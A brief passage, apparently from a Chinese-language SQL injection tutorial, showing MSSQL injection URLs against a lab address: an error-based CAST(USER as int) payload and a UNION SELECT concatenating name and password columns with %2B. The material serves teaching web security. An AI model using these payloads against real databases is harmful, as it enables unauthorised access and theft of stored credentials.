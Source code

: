 当然也可以这样用

```
http://192.168.130.137/1.aspx?id=1 SELECT 1 UNION (select CAST(USER as int))

```

![mysql](./img/1.6.3.png)


在mssql中我们如果想查询多条数据可以使用%2B 也就是加号

```
http://192.168.130.137/1.aspx?id=1 union select null,name%2Bpass,null from info

```

![mysql](./img/1.6.4.png)
